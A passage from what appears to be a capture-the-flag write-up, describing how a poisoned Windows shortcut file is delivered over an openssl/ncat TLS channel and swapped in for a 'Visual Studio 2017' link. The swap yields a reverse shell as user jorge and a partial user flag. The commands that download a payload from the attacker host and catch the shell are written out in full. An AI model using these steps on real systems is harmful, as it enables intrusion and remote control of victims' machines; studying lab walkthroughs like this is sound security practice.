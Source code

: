 ```

c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:136 > c:\users\public\desktop\shortcuts\lnk.lnk

```

I’ll serve the file with `ncat`, and I get a connection back on port 136 to get the file:

```

root@kali# ncat --ssl --send-only --ssl-key key.pem --ssl-cert cert.pem  -lvp 136 < vs-mod.lnk
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::136
Ncat: Listening on 0.0.0.0:136
Ncat: Connection from 10.10.10.106.
Ncat: Connection from 10.10.10.106:49674.

```

Now I’ll issue the command to copy the poison lnk to the expected name:

```

copy /Y lnk.lnk "Visual Studio 2017.lnk"

```

Then I’ll quickly kill both listeners and restart them with `openssl`.

### Shell

Within a few minutes, I have a shell as jorge, in two windows, just like with alan:

```

root@kali# openssl s_server -quiet -key key.pem -cert cert.pem  -port 136
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\jorge\Documents>whoami
ethereal\jorge

```

And from there, I can get `user.txt`:

```

C:\Users\jorge\Desktop>type user.txt
2b9a4ca0...

```

I can also see the script that is running as jorge to click on the lnk. It starts a loop over sleeping for 5 seconds (via `ping`, since there’s no good sleep function in cmd), then running the lnk file. Then it sleeps another 5 seconds, then replaced the link with a clean copy. It sleeps another 50 seconds, and then kills `devenv.exe`, so that when the clean lnk is there, there aren’t tons of processes running.
